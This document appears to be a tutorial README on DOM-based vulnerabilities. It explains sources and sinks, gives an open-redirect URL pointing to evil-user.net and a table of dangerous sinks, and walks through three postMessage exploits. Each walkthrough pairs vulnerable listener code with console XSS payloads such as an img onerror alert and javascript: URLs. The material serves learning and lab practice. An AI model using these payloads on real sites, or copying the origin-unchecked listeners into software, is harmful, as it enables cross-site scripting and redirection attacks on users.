 # What is DOM 

**There is two terms to find DOM Vulnerbility**
  1- Source
  2- Sink
 
### Source:
 ```
 A source is a JavaScript property that accepts data that is potentially attacker-controlled. An example of a 
 source is the `location.search` property because it reads input from the query string, which is relatively simple 
 for an attacker to control. Ultimately, any property that can be controlled by the attacker is a potential source. 
 This includes the referring URL (exposed by the `document.referrer` string), the user's cookies (exposed by the 
 `document.cookie` string), and web messages.**
 ```
### Sink: 
  ```
  A sink is a potentially dangerous JavaScript function or DOM object that can cause undesirable effects if 
  attacker-controlled data is passed to it. For example, the `eval()` function is a sink because it processes 
  the argument that is passed to it as JavaScript. An example of an HTML sink is `document.body.innerHTML` because it
  potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.
  ```
The most common source is the URL, which is typically accessed with the `location` object. An attacker can construct a link to send a victim to a vulnerable page with a payload in the query string and fragment portions of the URL. Consider the following code:
```js
goto = location.hash.slice(1)
if (goto.startsWith('https:')) {
  location = goto;
}
```
This is vulnerable to DOM-based open redirection because the `location.hash` source is handled in an unsafe way. If the URL contains a hash fragment that starts with `https:`, this code extracts the value of the `location.hash` property and sets it as the location property of the window. An attacker could exploit this vulnerability by constructing the following URL:
 - ```https://www.innocent-website.com/example#https://www.evil-user.net```
 
 ## Which sink can lead to DOM-based Vulnerabilities?
 
 #### The following list provides a quick overview of common DOM-based vulnerabilities and an example of a sink that can lead to each one. For a more comprehensive list of relevant sinks, please refer to the vulnerability-specific pages by clicking the links below.
 
|DOM-based vulnerability		|		Example sink            |     
|-------------------------------|-------------------------------|		
|DOM XSS            					|		document.write()		|			
|Open redirection LABS			|		window.location			|			
|Cookie manipulation LABS		|		document.cookie			|		
|JavaScript injection			|		eval()					|
|Document-domain manipulation	|		document.domain				|	
|WebSocket-URL poisoning		|		WebSocket()					|
|Link manipulation				|		element.src 				|	
|Web message manipulation		|		postMessage()				|	
|Ajax request-header manipulation|		setRequestHeader()			|	
|Local file-path manipulation	|		FileReader.readAsText()		|		
|Client-side SQL injection		|		ExecuteSql()				|	
|HTML5-storage manipulation		|		sessionStorage.setItem()	|		
|Client-side XPath injection	|		document.evaluate()			|	
|Client-side JSON injection		|		JSON.parse()				|		
|DOM-data manipulation			|		element.setAttribute()		|			
|Denial of service				|		RegExp()					|
 
 
 ## Exploiting web message 
 
 **1- Exploit the postMessage Vulnerability:**
  ```js
  Here is vulnerable code:
  window.addEventListener('message', function(e) {
          document.getElementById('ads').innerHTML = e.data;
   })

  ```
  *Exploit:*
  
    - Goto the source tab add breakpoint to document.getElement
    - Goto the console tab
    - window.postMessage('<img src=x onerror=alert(1)>','*')
    - You should get alert popup


**2- Explot postMessage Vulnerability:**

  Here is vulnerable code:
  ```js
  window.addEventListener('message', function(e) {
      var url = e.data;
          if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                  location.href = url;
           }
  }, false);
  ```

   *Analysis:*
    This script sends a web message containing an arbitrary JavaScript payload, along with the string "http:". The second argument 
    specifies that any targetOrigin is allowed for the web message.

   When the iframe loads, the postMessage() method sends the JavaScript payload to the main page. The event listener spots the 
   "http:" string and proceeds to send the payload to the location.href sink, where the print() function is called.

  **Exploit:** 
  
    1- Goto the developer tool in source tab add breakpoint to the `url` var.   
    2- Then goto the console tab type 
        window.postMessage('javascript:alert(1)//http:','*')
    3- You can Iframe to exploit for poc


 **3. Exploiting postMessage DOM using JSON**
 
   Here is Vulnerable Code
   ```js
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
```
**Analysis:**

  Notice that the home page contains an event listener that listens for a web message. This event listener expects a string that is parsed using `JSON.parse()`. In the JavaScript, we can see that the event listener expects a type property and that the `load-channel` case of the `switch` statement changes the `iframe` `src` attribute.

  When the `iframe` we constructed loads, the `postMessage()` method sends a web message to the home page with the type `load-channel`. The event listener receives the message and parses it using `JSON.parse()` before sending it to the `switch.`

  The switch triggers the `load-channel` case, which assigns the url property of the message to the src attribute of the `ACMEplayer.element` `iframe`. However, in this case, the `url` property of the message actually contains our JavaScript payload.

  As the second argument specifies that any `targetOrigin` is allowed for the web message, and the event handler does not contain any form of origin check, the payload is set as the src of the `ACMEplayer.element` `iframe`. The `print()` function is called when the victim loads the page in their browser.

**Exploit:**
  -  Goto the source tab add break point to `var  iframe`.
  -  Then switch to console tab and write down.
      window.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(1)\"}","*")
  - You will get alert window.
  - Iframe this exploit for poc.

 
 
 
 
 
 
 
 
